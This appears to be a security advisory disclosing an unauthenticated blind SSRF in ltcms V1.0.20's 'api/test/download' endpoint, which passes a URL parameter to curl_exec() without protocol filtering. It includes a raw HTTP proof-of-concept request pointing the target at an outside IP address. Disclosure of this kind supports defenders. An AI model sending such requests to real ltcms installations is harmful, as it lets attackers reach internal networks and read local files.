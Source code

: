 # Vendor

ltcms.com

# Product

ltcms

# version

V1.0.20

Download Source Code: git clone https://gitee.com/wanglongcn/ltcms.git

# Vulnerabilities

SSRF

# Description

In ltcms, there is an API endpoint "api/test/download" that can be used to perform a blind SSRF attack. The corresponding page for this endpoint is located at "app/api/controller/Test.php". This page does not require authentication, allowing anyone to call curl_exec() to request a URL specified in the url parameter. Additionally, due to the lack of protocol filtering, protocols like file, dict, etc., can be used to initiate requests to the internal network.
![image](https://github.com/user-attachments/assets/6fe5d9be-e658-4908-9045-9744681156ae)

# POC
```
GET /api/test/download?url=http://124.221.70.199:8888/c.php HTTP/1.1
Host: 192.168.17.24
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
